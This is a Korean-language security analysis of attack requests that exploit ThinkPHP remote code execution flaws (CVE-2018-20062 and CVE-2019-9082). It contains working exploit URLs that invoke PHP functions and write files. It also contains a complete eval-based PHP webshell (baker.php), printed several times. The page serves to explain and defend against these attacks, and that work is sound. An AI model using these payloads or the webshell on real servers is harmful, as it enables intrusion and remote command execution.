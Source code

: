 > ✅ **CVE-2018-20062**
이는 **ThinkPHP 프레임워크의 심각한 원격 코드 실행 취약점(RCE)** 을 이용한 공격입니다.
해당 취약점은 HTTP Request를 처리하기 위해 controller를 호출할 때,
library/think/ 에서 사용자 입력값을 적절하게 검증하지 않아서 공격자가 "" 기호를 사용하여 class method를 호출하여 공격합니다.


### 📌 PoC 구조 

```http
GET /index.php?s=/index/\think\app/invokefunction
    &function=call_user_func_array
    &vars[0]=phpinfo
    &vars[1][]=1
```

혹은

```http
&vars[0]=file_put_contents
&vars[1][]=shell.php
&vars[1][]=<?php system($_GET['cmd']); ?>
```

## 🚨 공격 쿼리 분석 1

```plaintext
/index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=file_put_contents
&vars[1][]=baker.php
&vars[1][]=<?php class GcE493F6 { public function __construct($Hy5F7){ @eval("/*ZBc6469V18*/".$Hy5F7.""); }}new GcE493F6($_REQUEST['pass']);echo error303?>
```

### 🔍 주요 구성요소:

| 파라미터                            | 의미                                            |
| ------------------------------- | --------------------------------------------- |
| `function=call_user_func_array` | PHP의 콜백 함수 호출 (ThinkPHP 같은 프레임워크에서 우회 실행에 사용) |
| `vars[0]=file_put_contents`     | 파일을 쓰기 위한 PHP 함수 지정                           |
| `vars[1][]=baker.php`           | 업로드할 파일 이름 (`baker.php`)                      |
| `vars[1][]=...`                 | 파일 내용 – **웹쉘 코드 포함**                          |

---

## 🧨 포함된 악성 코드 baker.php (웹쉘)

### 디코딩된 웹쉘 코드:

```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval("/*ZBc6469V18*/" . $Hy5F7 . "");
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```

### 기능 요약:

* `$_REQUEST['pass']` 파라미터로 전달된 코드를 `eval()`로 실행
* PHP 파일 `baker.php`로 저장됨
* 외부에서 명령어를 실행 가능한 **백도어 웹쉘**이 생성됨
* `echo error303`는 단순 응답 확인용 (공격자가 요청 성공 여부 확인하는 방식)

---

### 🔍 요약

| 항목          | 설명                                                                                 |
| ----------- | ---------------------------------------------------------------------------------- |
| **취약점 ID**  | CVE-2018-20062                                                                     |
| **영향받는 버전** | ThinkPHP 5.0.23 이하 버전                                                              |
| **취약점 종류**  | 원격 코드 실행 (RCE)                                                                     |
| **공격 원인**   | `invokeFunction` 엔드포인트가 `call_user_func_array()`를 필터 없이 호출 가능                      |
| **공격 방식**   | `function`과 `vars[]` 파라미터를 통해 **임의의 PHP 함수 호출 가능**, 예: `eval`, `file_put_contents` |
| **공격 결과**   | 원격에서 PHP 웹쉘 업로드 및 명령 실행 가능                                                         |

---

## 📌 공격 쿼리 분석 2

```plaintext
s=index/\think\template\driver\file/write
&cacheFile=baker.php
&content=<?php class GcE493F6 { public function __construct($Hy5F7){ @eval("/*ZBc6469V18*/".$Hy5F7.""); }}new GcE493F6($_REQUEST['pass']);echo error303;?>
```

### 🔍 주요 구성요소:

| 파라미터                                        | 설명                                        |
| ------------------------------------------- | ----------------------------------------- |
| `s=index/\think\template\driver\file/write` | ThinkPHP 내부 클래스 경로를 이용해 `write` 메서드 직접 호출 |
| `cacheFile=baker.php`                       | 생성할 파일 이름                                 |
| `content=...`                               | PHP 웹쉘 코드 내용 인코딩되어 포함                     |

---

## 💣 이 공격의 핵심

* ThinkPHP의 `think\template\driver\file::write()` 메서드를 **직접 호출**하여 웹쉘 파일을 씁니다.
* 공격자는 URL 파라미터를 통해 파일 이름과 내용을 지정 → **직접 웹쉘 생성 가능**
* 업로드된 `baker.php`는 다음과 같은 PHP 백도어를 포함:

```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval("/*ZBc6469V18*/" . $Hy5F7 . "");
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```
---

### 🔍 요약

| 항목          | 내용                                        |
| ----------- | ----------------------------------------- |
| **CVE ID**  | CVE-2019-9082                             |
| **영향받는 버전** | ThinkPHP 5.x (특히 5.0.23 이하)               |
| **취약점 종류**  | RCE (Remote Code Execution)               |
| **취약점 위치**  | `think\template\driver\file::write()` 메서드 |
| **취약 원인**   | 외부 입력으로 해당 메서드                            |

